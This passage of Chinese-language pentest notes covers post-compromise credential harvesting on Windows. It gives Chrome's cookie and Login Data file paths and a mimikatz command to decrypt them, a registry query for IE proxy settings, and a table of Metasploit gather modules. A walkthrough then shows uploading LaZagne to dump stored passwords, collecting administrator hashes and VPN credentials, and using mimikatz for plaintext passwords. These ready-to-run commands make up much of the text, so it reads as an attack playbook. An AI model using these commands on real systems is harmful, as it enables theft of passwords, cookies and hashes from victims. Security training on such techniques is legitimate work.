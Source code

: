 ##### 获取浏览器的cookies和存储密码（Chrome为例）

存储位置

```bash
%localappdata%\google\chrome\USERDATA\default\cookies
%localappdata%\google\chrome\USERDATA\default\Login Data
chrome的用户信息保存在本地文件为 sqlite 数据库 格式
```

使用mimikatz读取内容

```bash
mimikatz.exe privilege::debug log "dpapi::chrome
/in:%localappdata%\google\chrome\USERDATA\default\cookies /unprotect"
```

##### IE浏览器的代理信息查看（wpad）

命令`reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\internet Settings"`​

‍

‍

##### metasploit收集

|作用|模块|
| ----------------------------| -------------------------------------------|
|获取目标主机的磁盘分区情况|post/windows/gather/forensics/enum_drives|
|判断目标主机是否为虚拟机|post/windows/gather/checkvm|
|查看开启的服务|post/windows/gather/enum_services|
|查看安装的应用|post/windows/gather/enum_applications|
|查看共享|post/windows/gather/enum_shares|
|查看目标主机最近的操作|post/windows/gather/dumplinks|
|查看补丁信息|post/windows/gather/enum_patches|
|导出多个信息|scraper|

##### 步骤实验

拿取到shell之后，查看当前权限，上传lazagne.exe，获取密码

* laZagne适用于获取存储在本地计算机上的大量密码的开源应用程序，LaZagne的作用就是找到常用的一些软件的密码

  命令：LaZagne.exe all >re.txt

查看re.txt-》获取adminstrator的哈希值和连接VPN的账号密码

上线msf生成远控，并使用mimikatz获取明文密码

```bash
load mimikatz
kerberos
```
